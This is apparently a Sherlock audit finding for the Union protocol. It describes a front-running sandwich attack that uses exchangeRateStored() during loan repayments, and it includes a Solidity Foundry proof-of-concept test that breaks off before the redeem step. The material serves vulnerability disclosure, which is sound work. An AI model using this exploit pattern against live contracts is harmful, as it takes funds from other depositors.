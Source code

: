 Source: https://github.com/sherlock-audit/2023-02-union-judging/issues/8 

## Found by 
ozoooneth

## Summary

The `exchangeRateStored()` function allows to perform front-running attacks when a repayment is being executed.  

## Vulnerability Detail

Since `_repayBorrowFresh()` increases `totalRedeemable` value which affects in the final exchange rate calculation used in functions such as `mint()` and `redeem()`, an attacker could perform a front-run to any repayment by minting `UTokens` beforehand, and redeem these tokens after the front-run repayment. In this situation, the attacker would always be obtaining profits since `totalRedeemable` value is increased after every repayment.

### Proof of Concept

```solidity
    function increaseTotalSupply(uint256 _amount) private {
        daiMock.mint(address(this), _amount);
        daiMock.approve(address(uToken), _amount);
        uToken.mint(_amount);
    }

    function testMintRedeemSandwich() public {
        increaseTotalSupply(50 ether);

        vm.prank(ALICE);
        uToken.borrow(ALICE, 50 ether);
        uint256 borrowed = uToken.borrowBalanceView(ALICE);

        vm.roll(block.number + 500);

        vm.startPrank(BOB);
        daiMock.approve(address(uToken), 100 ether);
        uToken.mint(100 ether);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] BOB balance:", uToken.balanceOf(BOB));
        console.log("[DAI]    BOB balance:", daiMock.balanceOf(BOB));

        uint256 currExchangeRate = uToken.exchangeRateStored();
        console.log("[1] Exchange rate:", currExchangeRate);
        vm.stopPrank();

        vm.startPrank(ALICE);
        uint256 interest = uToken.calculatingInterest(ALICE);
        uint256 repayAmount = borrowed + interest;

        daiMock.approve(address(uToken), repayAmount);
        uToken.repayBorrow(ALICE, repayAmount);

        console.log("\n  [UToken] Total supply:", uToken.totalSupply());
        console.log("[UToken] ALICE balance:", uToken.balanceOf(ALICE));
        console.log("[DAI]    ALICE balance:", daiMock.balanceOf(ALICE));

        currExchangeRate = uToken.exchangeRateStored();
        console.log("[2] Exchange rate:", currExchangeRate);
        vm.stopPrank();

```